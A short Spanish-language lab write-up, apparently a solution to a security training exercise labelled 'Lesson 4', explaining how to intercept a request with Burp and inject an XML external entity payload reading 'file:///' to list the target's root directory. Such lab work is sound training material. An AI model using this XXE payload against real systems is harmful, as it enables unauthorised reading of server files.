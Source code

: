 ## Lesson 4

### Desarrollo

Debemos inyectar código en el XML para listar el contenido de `root` en el equipo comprometido.

### Solución

Podemos interceptar la solicitud con burp y añadir el siguiente `xml`:

```xml
<?xml version="1.0"?>

<!DOCTYPE text [
  <!ENTITY js SYSTEM "file:///">
]>
<comment>  
    <text>
        &js;
    </text>
</comment>
```